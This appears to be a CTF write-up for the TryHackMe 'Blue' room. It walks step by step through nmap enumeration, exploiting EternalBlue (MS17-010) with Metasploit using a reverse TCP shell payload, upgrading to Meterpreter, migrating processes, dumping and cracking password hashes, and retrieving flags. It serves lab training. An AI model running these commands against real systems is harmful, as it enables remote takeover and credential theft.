






# Máquina Blue
[](README.md) [](README.es.md)

## Difficulty: Easy


I start with a ping. We habe connection and because the ttl is 128, we know it's a Windows machine.

```bash
ping -c 1 10.10.12.50
```


To enumeration, I used nmap. With -sC To use the default recognition scripts, -sV to detect the version of the serivces, -sS to stealth mode, and -p- to scan all ports.

```bash
nmap -p- -sV -sC -sS 10.10.12.50
```


About the open ports, the ones that most catch my attention are **445**, which is the SMB port, a critical port where there may be vulnerabilities, and **3389**, which is the RDP port, another one that could be used. The Windows version: **Windows 7 Professional 7601 Service Pack 1 microsoft-ds**, the Host name: **JON-PC**, from which we deduce that there is a user called Jon on the machine. We see that both **SMBv1** (smb-security-mode) and **SMBv2** (smb2-security-mode) are active.

Now we need to find some vulnerability to exploit.

I think to Google the version of Windows that the machine use to see if it has any vulnerabilities. Searching Google for this OS version, I found this:


So EternalBlue is an exploit that affects SMBv1 and, among others, this machine's version of Windows. This exploit allows remote code execution on the target machine. While it has already been patched, we don't know if the machine we attacked has been patched. We can test it.

I opened metasploit with the command:

```shell
msfconsole
```
Search  the exploit with:

```shell
search ms17-010
```


Select the exploit with:

```shell
use 0
```

The default payload is enought and will give us access to the machine with a Meterpreter reverse shell, but Tryhackme, to practice switching from a normal Windows shell to a Meterpreter shell, suggests using the following payload instead to get a normal Windows reverse shell:

```shell
set payload windows/x64/shell/reverse_tcp
```


Need to set the remote host address.

```shell
set RHOSTS 10.10.12.50
```

And local host. We can see our IP Address with this command:

```shell
ip a
```

And set the local host:

```shell
set LHOST 10.10.162.56
```
Then, run the exploit with:

```shell
run
```
Yes. The machine is vulnerable to EternalBlue. If we did it well, we should see some like this:


We now have the Windows reverse shell. Now we'll leave the session in the background with **ctrl + z** and use the **post/multi/manage/shell_to_meterpreter** module to escalate privileges to the meterpreter shell.

Now we need to specify the session in which we got the reverse shell. We can verify this with this command:

```shell
sessions -l
```

If you just did it, it's 1.

Now we use **run** to execute the exploit. This step may cause problems on this machine. It failed for me the first time and I had to reboot, that's why it has a different IP address now. If it worked, we'll see something similar to this:



Now we have a session with the meterpreter reverse shell, which is session 2. We activate it with this command:

```shell
sessions -i 2
```

We have it now, we can use **whoami** to check that we have nt authority\system privileges:


We have administrator privileges, but our process may not. So, let's migrate to a process that does. We use **ps** to list the processes:


In my case, I'm migrating to conhost.exe. I previously tried migrating to svchost.exe, but it denied me access. To do this, we use the **migrate** command, specifying the process's PID:

```shell
migrate 352
```



Now we're asked for user Jon's password. I used **hashdump** to get the hash:



Now there are several ways to crack the hash. We could use John the Ripper and try to extract it using word lists; I've used Crackstation's website because it's faster.


Now, for the first flag, we're told it's in the root of the system. Usually it's C:

```shell
cd C:\\
ls
cat flag.txt
```


TryHackMe tell us that the second flag is where Windows passwords are stored. So in **C:\Windows\System32\config**

```shell
cd C:\\Windows\\System32\\config
ls
cat flag2.txt
```



Flag 3 TryHackMe tell us it's where administrators usually save important things. So I go to C:\Users and the only user is Jon. Within Jon, I look for Desktop, Downloads, and finally Documents, where the last flag is located.



By the way, when you realize that they're going to be called flag1.txt, flag2.txt, etc., Meterpreter has the **search -f** command, when you pass the file name to, and it shows you the path to it. For example with flag3.txt:

```shell
search -f flag3.txt
```


Machine solved.

